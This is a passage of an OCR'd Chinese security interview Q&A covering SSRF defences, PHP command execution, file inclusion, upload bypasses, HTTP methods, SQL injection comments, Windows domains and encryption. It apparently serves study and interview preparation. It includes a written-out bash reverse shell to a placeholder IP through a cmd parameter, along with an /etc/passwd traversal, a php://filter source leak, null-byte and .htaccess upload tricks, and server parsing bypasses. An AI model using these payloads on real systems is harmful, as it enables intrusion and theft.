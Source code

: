 67.什么叫 ssrf 以及 ssrf 的防御？  
(1)SSRF(Server-Side Request Forgery:服务器端请求伪造)  是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统  
(2)SSRF 统一错误信息，避免用户可以根据错误信息来判断远程服务器端口状态  
1.限制请求的端口为 HTTP 常用的端口，比如  80,443,8080,8088 等  
2.黑名单内网 IP。  
3.禁用不需要的协议，仅仅允许 HTTP 和 HTTPS.  

68.如何利用 php 的远程命令执行函数进行反弹 nc?  
system,exec,shell_exec,paassthru,popen,proc_popen,  
反弹 shell    公网服务器执行  nc –lvv 8888  
目标服务器上执行?cmd= bash -i >& /dev/tcp/10.0.0.1/8888 0>&1  
并在 disabl_functions 中禁用  

69.文件包含漏洞可以用来做啥，以及需要主要注意的事项？  
 （1 ）配合文件上传漏洞GetShell ，可以执行任意脚本代码，网站源码文件以及配置文件泄露，远程包含 GetShel ，  控制整个网站甚至是服务器  
 （2 ）allow_url_fopen 和 allow_url_include 为 ON 的话，则包含的文件可以是第三方服务器中的文件，这样就形成了远程文件包含漏洞  
 （3 ）/etc/passwd •  需要  magic_quotes_gpc=off,PHP 小于 5.3.4 有效  
 （4 ）/etc/passwd././././././././././././.[......]/././././././././.  
 （5 ）php 版本小于 5.2.8 可以成功，linux 需要文件名长于 4096 ，windows需要长于 256  
index.php?page=php://filter/read/=convert.base64-encode/resource=index.php  

70.文件上传有哪些技巧？  
通过抓包截断将  eval.php.jpg  换成  eval.php_jpg(下划线为 0x00)。在上传文件时系统文件遇到 0x00。会认为文件已经结束。从而将 eval.php.jpg 的内容写入到 eval.php 中。  
.htaccess 文件内容  
<FilesMatch “haha”>  
SetHandler application/x-httpd-php  
</FileMatch>  
文件幻数检测  jpg(JFIF) gif(GIF89a) png(%PNG)   
apache 解析漏洞，2.0-2.2 IIS7.5 解析漏洞，任意文件名后加.php  
nginx<0.8.32 1.jpg/1.php    
nginx>0.8.41<1.5.6,1.jpg%20.php 解析  
**SQL 注入（Sql Injection   ）是一种将SQL 语句插入或添加到应用(用户)的输入参数中的攻击，之后再将这些参数传递给后台的 SQL 服务器加以解析并执行。  

71.HTTP 协议 head 方法的功能与 get 方法不同之处是？  
不同之处在于服务器不会在其相应中返回消息主体
• TRACE。这种方法主要用于诊断。  
• OPTIONS。这种方法要求服务器报告对某一特殊资源有效的 HTTP 方法。  
• PUT。这个方法试图使用包含在请求主体中的内容，向服务器上传制定的资源  
** 各种注释#-- -- - --+ // /**/  空白字符， +号，-号，～号，！号，@形式 {} %0a-----------------------------  

72.域和组的区别是什么？  
工作组是一群计算机的集合，它仅仅是一个逻辑的集合，各自计算机还是各自管理的，你要访问其中的计算机，还是要到被访问计算机上来实现用户验证的。而域不同，域是一个有安全边界的计算机集合，在同一个域中的计算机彼此之间已经建立了信任关系，在域内访问其他机器，不再需要被访问机器的许可了。为什么是这样的呢？因为在加入域的时候，管理员为每个计算机在域中（可和用户不在同一域中）建立了一个计算机帐户，这个帐户和用户帐户一样，也有密码保护的。可是大家要问了，我没有输入过什么密码啊，是的，你确实没有输入，计算机帐户的密码不叫密码，在域中称为登录凭据，它是由 2000 的 DC（域控制器）上的 KDC 服务来颁发和维护的。为了保证系统的安全，KDC 服务每 30 天会自动更新一次所有的凭据，并把上次使用的凭据记录下来。周而复始。也就是说服务器始终保存着 2 个凭据，其有效时间是 60 天，60 天后，上次使用的凭据就会被系统丢弃。如果你的 GHOST 备份里带有的凭据是 60 天的，那么该计算机将不能被 KDC 服务验证，从而系统将禁止在这个计算机上的任何访问请求（包括登录），解决的方法呢，简单的方法使将计算机脱离域并重新加入，KDC 服务会重新设置这一凭据。或者使用 2000 资源包里的 NETDOM 命令强制重新设置安全凭据。因此在有域的环境下，请尽量不要在计算机加入域后使用 GHOST备份系统分区，如果作了，请在恢复时确认备份是在 60 天内作的，如果超出，就最好联系你的系统管理员，你可以需要管理员重新设置计算机安全凭据，否则你将不能登录域环境。 域和工作组适用的环境不同，域一般是用在比较大的网络里，工作组则较小，在一个域中需要一台类似服务器的计算机，叫域控服务器，其他电脑如果想互相访问首先都是经过它的，但是工作组则不同，在一个工作组里的所有计算机都是对等的，也就是没有服务器和客户机之分的，但是和域一样，如果一台计算机想访问其他计算机的话首先也要找到这个组中的一台类似组控服务器，组控服务器不是固定的，以选举的方式实现，它存储着这个组的相关信息，找到这台计算机后得到组的信息然后访问。  

73.对称加密非对称加密？  
对称加密：加解密用同一密钥，密钥维护复杂 n （n-1 ）/2 ，不适合互联网传输 
密钥，加解密效率高。应用于加密数据。  
非对称加密：公钥推不出私钥，每个用户一个非对称密钥对就可以，适合于互联 
网传输公钥，但是加密效率低，应用于数字签名及加密。  
